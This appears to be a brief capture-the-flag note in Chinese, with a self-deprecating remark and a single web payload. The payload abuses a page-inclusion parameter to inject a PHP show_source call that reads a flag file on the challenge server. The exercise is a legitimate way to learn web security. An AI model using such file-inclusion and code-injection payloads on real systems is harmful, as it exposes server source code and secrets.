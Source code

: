 感觉变蠢了（自己），下次多想想

payload：http://61.147.171.105:61728/?page=http://127.0.0.1/index.php/?hello=<?show_source('fl4gisisish3r3.php');?>